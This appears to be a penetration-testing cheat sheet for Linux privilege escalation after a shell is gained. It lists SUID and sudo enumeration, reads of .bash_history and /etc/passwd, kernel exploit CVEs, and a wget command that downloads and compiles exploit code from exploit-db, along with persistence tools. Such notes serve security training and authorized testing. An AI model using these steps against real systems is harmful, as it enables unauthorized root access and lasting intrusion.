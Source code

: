 
INPUT: Stablished shell
PROCESS:
- Privilege Escalation
    - Manual Vector Finding
        - find / -perm /4000 2>/dev/null
        - find / -type f -user root -perm -u=s 2>/dev/null
        - find / -perm -u=s -type f 2>/dev/null
        - sudo -l
        - sudo -V
        - cat .bash_history
        - cat /etc/passwd
    - Auto Vector Finding
        - linpeas.sh
- Maintain Access
TOOLS
- Kernel Exploit
    - CVE-2017-16995
    - CVE-2021-4034
- GTFOBins
    - find
    - vim
    - sudo
- Python Library Hijacking
OUPUT:
- root shell


## Privilege Escalation
[cve-2017-16995]
    wget https://www.exploit-db.com/download/45010 -O cve-2017-16995.c
    gcc --static cve-2017-16995.c -o cve-2017-16995
[CVE-2021-4034]
    https://www.exploit-db.com/exploits/50689
    https://github.com/ryaagard/CVE-2021-4034
    https://github.com/c3c/CVE-2021-4034
[CVE-2017-0143]
    https://www.exploit-db.com/exploits/43970
[GTFOBins]
    https://gtfobins.github.io/
[$PATH]
    Linux Privilege Escalation Using PATH Variable
[tmux]
    tmux -S default attach

## Maintain Access
- PowerSploit
- Weewly
- dns2tcp



